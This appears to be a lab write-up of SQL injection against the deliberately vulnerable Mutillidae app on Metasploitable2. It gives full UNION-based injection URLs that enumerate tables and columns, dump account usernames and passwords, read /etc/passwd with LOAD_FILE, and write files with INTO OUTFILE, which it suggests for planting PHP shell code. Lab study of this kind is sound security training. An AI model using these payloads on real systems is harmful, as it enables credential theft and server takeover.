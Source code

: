 Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

Uploading output23.png… The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table. Uploading output24.png… The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Catty12384/sqlinjection/assets/120629225/8c49fb16-61bf-4c12-94f6-9d7851e37b64)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Catty12384/sqlinjection/assets/120629225/81ca6a56-87e8-4136-a155-3f2a7fdcf3ab)

Reading and writing files on the web-server We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Catty12384/sqlinjection/assets/120629225/c13282c1-e4d2-48e5-8920-1638553e9205)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

# RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.



